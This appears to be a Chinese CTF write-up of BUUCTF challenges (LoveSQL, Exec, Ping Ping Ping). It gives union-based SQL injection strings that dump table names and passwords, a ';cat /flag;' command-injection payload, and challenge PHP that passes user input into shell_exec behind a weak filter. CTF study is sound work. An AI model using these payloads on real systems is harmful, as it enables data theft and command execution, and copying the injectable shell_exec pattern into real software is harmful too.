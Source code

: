 php://filter直接过

---
# [极客大挑战 2019]LoveSQL

万能密码直接进：

![](https://img-blog.csdnimg.cn/20210422162738321.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

联合注入直接蒙出来字段数为3：回显

![](https://img-blog.csdnimg.cn/20210422162804627.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
```
表名：
'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='geekuser'#

列名：
'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='geekuser'#

查字段：
'union select 1,group_concat(password),3 from l0ve1ysq1#
```

---
# [ACTF2020 新生赛]Exec
Payload：
```
;cat /flag;
```




---
# [GXYCTF2019]Ping Ping Ping

- 考点：命令执行

![](https://img-blog.csdnimg.cn/20210422162916392.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

获得index.php:
```php
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```